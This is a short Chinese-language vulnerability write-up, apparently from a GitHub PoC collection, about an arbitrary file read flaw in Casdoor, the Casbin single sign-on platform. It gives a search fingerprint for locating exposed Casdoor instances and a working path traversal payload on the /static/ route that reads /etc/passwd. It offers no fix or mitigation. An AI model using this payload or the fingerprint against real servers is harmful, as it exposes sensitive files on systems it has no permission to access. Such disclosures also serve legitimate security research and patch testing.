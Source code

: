 # Casbin casdoor static 任意文件读取漏洞

## 漏洞描述

Casdoor 是 Casbin 开源社区推出的基于 OAuth 2.0 / OIDC 的中心化的单点登录（SSO）身份验证平台。

Casdoor static 存在任意文件读取漏洞，攻击者通过发送特殊的请求包可以获取服务器中的敏感文件。

## 漏洞影响

```
Casdoor
```

## 网络测绘

```
title="Casdoor"
```

## 漏洞复现

登陆页面

![image-20231115094403952](images/image-20231115094403952.png)

或者

![image-20231115094555640](images/image-20231115094555640.png)

poc

```
/static/../../../../../../../../../../../etc/passwd
```

![image-20231115094237497](images/image-20231115094237497.png)